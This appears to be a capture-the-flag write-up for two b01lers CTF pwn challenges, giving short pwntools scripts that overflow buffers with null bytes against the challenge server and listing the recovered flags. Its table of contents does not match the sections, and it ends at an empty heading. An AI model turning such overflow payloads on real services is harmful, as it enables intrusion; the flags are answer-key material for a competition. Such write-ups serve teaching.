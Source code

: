 ## Rev
<ul style="line-height: 10px;">
    <li> <a href="#LinkBattle">Rev - Link Battle </a> </li>
    <li> <a href="#ThumbThumb">Rev - Thumb Thumb </a> </li>
</ul>

<h1 id="Metacortex">Metacortex</h1>

### Description:

    This company is one of the top software companies in the world, 
    because every single employee knows that they are part of a whole. 
    Thus, if an employee has a problem, the company has a problem.
    nc chal.ctf.b01lers.com 1014

### Solution:

this is a simple buffer overflow challenge, we need to pass the if condition, we have to set 
`%rax` and `%rbx` to `0x0`.
{% highlight python %}
from pwn import *
#r = process("./metacortex-72ec7dee20d0b191fe14dc2480bd3f43")
r = remote("chal.ctf.b01lers.com", 1014)
p = "\x00" * 104
r.sendline(p)
r.interactive()
{% endhighlight %}

FLAG: flag{Ne0_y0uAre_d0ing_well}

<h1 id="ThereisnoSpoon">There is no Spoon </h1>

### Description:

    Neo: bend reality, and understand the truth of the matrix.
    nc chal.ctf.b01lers.com 1006

### Solution:

another easy challenge, in this challenge we have to overwrite variable `changeme`

{% highlight python %}
from pwn import *
#r = process("thereisnospoon-3b08fb627c71c8c2149d1e57d98a1934")
r = remote("chal.ctf.b01lers.com", 1006)
r.sendline("\x00"*900)
r.sendline("90000000000000")
r.interactive()
{% endhighlight %}

FLAG: flag{l0tz_0f_confUsi0n_vulnz}

<h1 id="TheOracle">The Oracle</h1>
